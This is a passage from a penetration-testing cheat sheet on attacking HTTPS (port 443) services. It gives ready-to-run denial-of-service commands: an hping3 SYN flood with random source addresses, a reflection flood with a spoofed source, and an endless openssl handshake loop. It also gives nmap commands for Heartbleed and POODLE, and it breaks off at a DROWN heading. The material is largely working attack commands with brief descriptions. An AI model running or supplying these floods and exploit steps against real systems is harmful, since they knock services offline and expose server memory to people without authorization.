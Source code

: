 ### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p 443 --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p 443 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### SSL/TLS Handshake Flood

*   **Tool:** \[\[OpenSSL]]

    ```bash
    while true; do openssl s_client -connect <target_ip>:443 & done
    ```
* **Description:** Floods the service with SSL/TLS handshake requests, overwhelming the server.

### Exploits

#### Heartbleed (CVE-2014-0160)

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap --script ssl-heartbleed -p 443 <target_ip>
    ```
* **Description:** Exploiting the Heartbleed vulnerability in OpenSSL to extract sensitive information from the server's memory.

#### POODLE (Padding Oracle On Downgraded Legacy Encryption)

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap --script ssl-poodle -p 443 <target_ip>
    ```
* **Description:** Exploit the POODLE vulnerability by forcing a downgrade to SSL 3.0 and performing a padding oracle attack.

#### DROWN (CVE-2016-0800)
